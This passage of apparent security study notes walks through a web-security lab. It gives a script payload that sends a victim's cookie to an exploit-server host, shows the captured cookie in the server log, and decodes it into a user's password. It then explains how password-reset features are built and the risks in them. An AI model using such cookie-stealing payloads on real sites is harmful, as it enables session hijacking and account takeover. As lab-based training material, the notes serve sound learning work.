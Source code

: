 ![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927133904.png)

We can enter a payload to steal an user's cookie:

```js
<script>document.location='//exploit-0a5100b30484ebb2802716e9011800cb.exploit-server.net/'+document.cookie</script>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927134249.png)
If we go to our exploit server logs, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927134413.png)
Seems like a secret (cookie) from our victim:


```cookie

10.0.4.235      2024-09-27 18:41:59 +0000 "GET /secret=62Gl05NdioA3apGNjKnBqjJRi4WOlrTp;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"

```

If we decode the stay-logged-in cookie:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927134607.png)
![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927134616.png)
Like that, we got carlos user password!:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240927134712.png)


### Resetting user passwords

In practice some users will forget their password, so it is common to have a way for them to reset it. As the usual password-based authentication is obviously impossible in this scenario, websites have to rely on alternative methods to make sure that the real user is resetting their own password. For this reason, the password reset functionality is inherently dangerous and needs to be implemented securely.

There are a few different ways that this feature is commonly implemented, with varying degrees of vulnerability.

#### Sending passwords by email

It should go without saying that sending users their current password should never be possible if a website handles passwords securely in the first place. Instead, some websites generate a new password and send this to the user via email.

Generally speaking, sending persistent passwords over insecure channels is to be avoided. In this case, the security relies on either the generated password expiring after a very short period, or the user changing their password again immediately. Otherwise, this approach is highly susceptible to man-in-the-middle attacks.
